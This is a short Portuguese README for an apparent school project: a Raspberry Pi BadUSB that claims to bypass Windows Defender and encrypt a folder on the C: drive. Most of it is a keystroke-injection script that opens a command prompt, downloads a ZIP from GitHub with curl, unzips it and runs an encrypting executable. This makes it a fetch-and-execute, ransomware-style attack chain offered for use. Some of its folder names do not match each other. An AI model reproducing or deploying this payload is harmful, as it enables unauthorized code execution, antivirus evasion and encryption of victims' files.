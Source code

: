 # CifrarPastaTrabalhoEscola
Trabalho escola para cifrar uma pasta


rapysberry pi bad usb encrpyt a folder
PROJETO DESENVOLVIDO POR TELES
PROJETO DE ESCOLA PARA CIFRAR UMA PASTA que da bypass ao windows defender

este PROJETO VAI CIFRAR UMA PASTA NO DISCO C CHAMADA DE TESTE 
Por isso se quiseres testar este projeto tens que criar uma pasta no disco c e meter o nome de teste 
e adicionar alguns ficheiros la dentro



CONTINUACAO DO PROJETO E FAZER DOWNLOAD DO FICHEIRO NO GITHUB A USAR UMA BADUSB PARA ELA FAZER O DOWNLOAD E EXECUTAR E CIFRAR UMA PASTA NO PC



REM Inicia o Notepad
DELAY 1000
GUI r
DELAY 1000
REM Abre a janela de comando
STRING cmd
ENTER
DELAY 1000
REM Vai para a pasta de downloads
STRING cd downloads
ENTER
DELAY 1000
REM Faz o download do arquivo ZIP
STRING curl -LJO https://github.com/PEQSPC/rapysberry-pi-BADUSB-ENCRYPTFOLDER/archive/refs/heads/main.zip
ENTER
DELAY 5000
REM Descompacta o arquivo ZIP
STRING unzip rapysberry-pi-BADUSB-ENCRYPTFOLDER-main.zip
ENTER
DELAY 1000
REM Vai para a pasta descompactada
STRING cd repo-master
ENTER
DELAY 1000
REM Executa o arquivo dentro da pasta
STRING cifrarumapasta.exe
ENTER
